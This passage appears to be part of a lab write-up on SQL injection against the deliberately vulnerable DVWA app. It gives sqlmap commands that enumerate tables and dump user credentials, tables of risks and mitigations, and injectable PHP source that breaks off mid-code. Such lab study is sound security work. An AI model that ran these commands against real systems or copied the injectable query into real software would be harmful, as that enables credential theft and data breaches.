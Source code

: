 ```markdown
--cookie="security=low; PHPSESSID=d5c773c75e22c2df70cb53ab181a373b" -D dvwa --tables

# 📄 Step 3: Enumerate columns from 'users'
sqlmap -u 'http://192.168.1.7/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit' \\
--cookie="security=low; PHPSESSID=d5c773c75e22c2df70cb53ab181a373b" -D dvwa -T users --columns

# 🔐 Step 4: Dump credentials from 'users'
sqlmap -u 'http://192.168.1.7/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit' \\
--cookie="security=low; PHPSESSID=d5c773c75e22c2df70cb53ab181a373b" \\
-D dvwa -T users -C user,password,first_name,last_name --dump


🎯 Success Indicator:
- Displays all user records instead of one
- Errors may disclose SQL structure

📸 Screenshot: Include Burp Repeater or browser result page
```

---

### 4️⃣ Risk & Real-World Impact

```markdown
🧠 Exploit Impact | 🎯 Description  
---|---  
Full DB Dump | Attacker can extract all data using UNION queries  
Authentication Bypass | Logic flaws enable unauthorized access  
Privilege Escalation | Potential lateral movement inside the app  
```

---

### 5️⃣ 🚧 Mitigation Measures (Secure Coding)

```markdown
🚫 Vulnerability | ✅ Mitigation  
---|---  
Raw SQL concatenation | Use parameterized queries (prepared statements)  
Lack of input filtering | Enforce strict type checking on input  
Exposed DB errors | Disable verbose error messages in production  
```

---

## 🔢 Input Code – MEDIUM Security Level

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    $id = $_POST[ 'id' ];
    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

            while( $row = mysqli_fetch_assoc( $result ) ) {
                $first = $row["first_name"];
                $last  = $row["last_name"];
                $html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }
```
